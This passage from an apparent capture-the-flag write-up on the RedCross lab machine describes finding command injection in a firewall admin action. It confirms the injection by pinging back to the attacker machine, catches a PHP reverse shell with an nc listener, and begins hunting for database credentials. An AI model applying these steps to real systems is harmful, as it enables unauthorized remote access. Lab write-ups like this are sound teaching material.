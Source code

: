 I’ll find my previous POST request from when I added my IP in Burp (or create
a new one) and send it to repeater. I’ll add a simple check to ping myself,
start `tcpdump`, and then send it. Unfortunately, I get an error:

![1554226551246](https://0xdfimages.gitlab.io/img/1554226551246.png)

However, if I try the deny action, I get better results:

![1554226592366](https://0xdfimages.gitlab.io/img/1554226592366.png)

And I see it at `tcpdump`:

    
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    13:35:48.819332 IP intra.redcross.htb > kali: ICMP echo request, id 16518, seq 1, length 64
    13:35:48.819376 IP kali > intra.redcross.htb: ICMP echo reply, id 16518, seq 1, length 64
    

Since I can see output, I can run other commands:

![1554226655779](https://0xdfimages.gitlab.io/img/1554226655779.png)

And I can get a shell using a `php` rev shell:

![1554229271639](https://0xdfimages.gitlab.io/img/1554229271639.png)

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.113.
    Ncat: Connection from 10.10.10.113:46998.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I can see `user.txt` in penelope’s homedir, but I can’t access it:

    
    
    www-data@redcross:/home/penelope$ cat user.txt 
    cat: user.txt: Permission denied
    

### Path 2.2: Shell As “penelope”

#### Find postgresql Creds

I know that the website can create and manage users for the jail. Looking at
the files in the admin dir, `actions.php` jumps out:

    
    
    www-data@redcross:/var/www/html/admin/pages$ ls
    actions.php  bottom.php  cpanel.php  firewall.php  header.php  login.php  users.php
    